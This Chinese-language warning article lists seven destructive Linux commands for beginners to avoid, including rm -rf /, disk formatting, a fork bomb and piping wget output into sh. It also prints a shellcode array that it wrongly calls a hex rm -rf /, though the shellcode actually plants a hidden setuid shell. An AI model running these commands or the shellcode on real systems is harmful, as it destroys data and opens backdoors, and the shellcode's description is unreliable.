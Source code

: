 ##  7 个致命的 Linux 命令

如果你是一个 Linux 新手，在好奇心的驱使下，可能会去尝试从各个渠道获得的命令。以下是 7 个致命的 Linux 命令，轻则使你的数据造成丢失，重则使你的系统造成瘫痪，所以，你应当竭力避免在系统中运行它们。

1.  `rm -rf /`

    此命令将递归并强制删除 / 目录下的所有文件。

2.  这是 rm -rf / 的 hex（十六进制）版本，很能迷惑 Linux 用户。

    ```
    char esp[] __attribute__ ((section(".text"))) /* e.s.p release */
        = "\xeb\x3e\x5b\x31\xc0\x50\x54\x5a\x83\xec\x64\x68"
        "\xff\xff\xff\xff\x68\xdf\xd0\xdf\xd9\x68\x8d\x99"
        "\xdf\x81\x68\x8d\x92\xdf\xd2\x54\x5e\xf7\x16\xf7"
        "\x56\x04\xf7\x56\x08\xf7\x56\x0c\x83\xc4\x74\x56"
        "\x8d\x73\x08\x56\x53\x54\x59\xb0\x0b\xcd\x80\x31"
        "\xc0\x40\xeb\xf9\xe8\xbd\xff\xff\xff\x2f\x62\x69"
        "\x6e\x2f\x73\x68\x00\x2d\x63\x00"
        "cp -p /bin/sh /tmp/.beyond; chmod 4755
        /tmp/.beyond;";
    ```

3.  `mkfs.ext3 /dev/sda`

    这将对硬盘进行重新格式化，自然，硬盘上的所有数据将灰飞烟灭。

4.  `:(){ :|:& };:`

    著名的 fork 炸弹，此命令将告诉你的系统执行海量的进程，直到你的系统僵死。

5.  `any_command > /dev/sda`

    使用该命令，原始数据将被写到块设备，其结果是造成数据丢失。

6.  `wget http://some_untrusted_source -O- | sh`

    不要从不信任的地方下载东西，这可能会获取恶意代码。

7.  `mv /home/yourhomedirectory/* /dev/null`

    此命令将移动主目录中的所有文件到一个不存在的地方，你将再也看不到那些文件。

